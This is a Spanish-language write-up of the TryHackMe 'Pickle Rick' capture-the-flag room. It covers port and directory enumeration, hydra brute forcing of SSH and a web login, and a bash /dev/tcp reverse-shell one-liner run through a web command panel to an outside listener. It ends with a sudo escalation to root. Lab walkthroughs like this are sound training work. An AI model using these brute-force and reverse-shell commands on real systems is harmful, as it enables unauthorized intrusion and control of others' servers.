


# Pickle Rick - TryHackMe

## Reconocimiento

Vamos a comenzar con un escaneo de puertos con nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.183.198 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
``` 

Veamos las versiones de los servicios que están corriendo en los puertos abiertos.

```bash
nmap -sCV -p22,80 10.129.183.198

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 10:3c:e0:6c:79:11:ee:dd:f1:ae:2f:29:7d:33:e5:4b (RSA)
|   256 c4:5d:bc:e7:88:f1:3a:37:b6:34:77:db:9f:59:df:64 (ECDSA)
|_  256 3c:a2:2c:91:2f:fa:1e:d5:f1:06:9f:12:7a:c7:da:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al entrar en http://10.129.183.198/ vemos esto:



Veamos con whatweb que tecnologías están corriendo en el servidor web.

```bash
http://10.129.183.198/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.183.198], JQuery, Script, Title[Rick is sup4r cool]
```

Esto nos indica que el servidor web está corriendo Apache 2.4.41 en Ubuntu Linux, y que está utilizando Bootstrap y JQuery.

Vamos a hacer una enumeración de directorios con gobuster.

```bash
gobuster dir -u http://10.129.183.198 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 10701 --add-slash

/assets/              (Status: 200) [Size: 2193]
/icons/               (Status: 403) [Size: 279]
/server-status/       (Status: 403) [Size: 279]
```

Dentro de /assets/ encontramos lo siguiente:

```bash
[TXT]	bootstrap.min.css	
[ ]	bootstrap.min.js	 
[IMG]	fail.gif	 
[ ]	jquery.min.js	 
[IMG]	picklerick.gif	
[IMG]	portal.jpg		 
[IMG]	rickandmorty.jpeg	
```

Al analizar el código fuente de la página web, encontramos un comentario que nos da una pista:

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Probemos a hacer fuerza bruta con hydra para el login de SSH usando el nombre de usuario que encontramos en el comentario.

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt ssh://10.129.183.198 -t 4

target ssh://10.129.183.198:22/ does not support password authentication (method reply 4).
```

Vemos que no soporta autenticación por contraseña.

Vamos a rpobar con esteganografía en las imágenes que encontramos en /assets/. Primero descargamos las imágenes:

```bash
wget http://10.129.183.198/assets/picklerick.gif
wget http://10.129.183.198/assets/portal.jpg
wget http://10.129.183.198/assets/rickandmorty.jpeg
wget http://10.129.183.198/assets/fail.gif
```

```bash
steghide extract -sf picklerick.gif
steghide extract -sf portal.jpg
steghide extract -sf rickandmorty.jpeg
```

No encontramos nada en esas imágenes, usamos exiftool para ver si encontramos algo en los metadatos de las imágenes.

```bash
exiftool picklerick.gif
exiftool portal.jpg
exiftool rickandmorty.jpeg
exiftool fail.gif
```

Tampoco encontramos nada, usamos stegseek para romper los salvoconductos de las imágenes.

```bash
stegseek picklerick.gif rockyou.txt
stegseek portal.jpg rockyou.txt
stegseek rickandmorty.jpeg rockyou.txt
stegseek fail.gif rockyou.txt
```

Tampoco encontramos nada, usamos `binwalk` para analizar los archivos pero no encontramos nada. 

Despues de enumerar mejor la página con wfuzz vemos que encuentra esto:

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 400,404 --hl 10 -u "http://10.129.183.198/FUZZ.txt"

000001765:   200        1 L      1 W        17 Ch       "robots"
000171110:   200        1 L      9 W        54 Ch       "clue"
```

Y sale una página robots.txt que nos pone el siguiente mensaje:

```txt
Wubbalubbadubdub
```
El otro archivo clue.txt nos da una pista de que hay que buscar un ingrediente secreto en el sistema de archivos.

```txt
Look around the file system for the other ingredient.
```

```bash
gobuster dir -u http://10.129.183.198 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 10701 -x txt,js,php,jpg,jpeg,gif,svg

/.php                 (Status: 403) [Size: 279]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 317] [--> http://10.129.183.198/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

Encontramos un http://10.129.183.198/login.php vemos que nos pide un nombre de usuario y una contraseña. 

Vamos a analizar la petición con burpsuite:

```bash
POST /login.php HTTP/1.1
Host: 10.129.183.198
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://10.129.183.198
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://10.129.183.198/login.php
Cookie: PHPSESSID=uom0283f4732fhujhm5r2vur0q
Upgrade-Insecure-Requests: 1
Priority: u=0, i


username=R1ckRul3s&password=pickle&sub=Login
```

Vamos a probar con un ataque de tipo Type Juggling:

```bash
username=R1ckRul3s&password[]=pickle&sub=Login
```

Pero no funciona, vamos a tirar de sqlmap para ver si hay alguna vulnerabilidad de inyección SQL en el login, aunque ya probé a poner comillas y no funcionó.

```bash
sqlmap -u "http://10.129.183.198/login.php" --dbs --batch --forms
```

No nos reporta ninguna vulnerabilidad, vamos a probar con un ataque de fuerza bruta con hydra para el login de la página web.

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f 10.129.183.198 -s 80 http-get /login.php -t 20 -I

[80][http-get] host: 10.129.183.198   login: R1ckRul3s   password: 123456
```

Acabo de probar con `Wubbalubbadubdub` y ha funcionado.

Me da un panel para ejecurtar comandos en el servidor.



En el resto de directorios nos pone este mensaje:

```txt
 Only the REAL rick can view this page..
```

Y nos redirige a denied.php.

Ejecutamos el comando `ls` y vemos esto:

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Si hacemos cat del archivo Sup3rS3cretPickl3Ingred.txt vemos este mensaje:

```txt
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

Vamos a usar el one liner típipco de bash para obtener una reverse shell.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.154.96/443 0>&1'
```

Obtenemos una reverse shell:

```bash
www-data@ip-10-129-183-198:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Vemos la primera flag Sup3rS3cretPickl3Ingred.txt.

## Escalada de privilegios

Vamos a hacer un tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

Si vamos a /home/rick vemos que hay un archivo llamado `'second ingredients'` al verlo con `cat` nos da la segunda flag.

Al hacer `sudo -l` vemos esto:

```bash
User www-data may run the following commands on ip-10-129-183-198:
    (ALL) NOPASSWD: ALL
```

Por lo que al hacer `sudo su` ya estamos como root:

```bash
www-data@ip-10-129-183-198:/$ sudo su
root@ip-10-129-183-198:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Al ir a la ruta `/root` vemos que hay un archivo llamado 3rd.txt, al hacer `cat` nos da la tercera flag.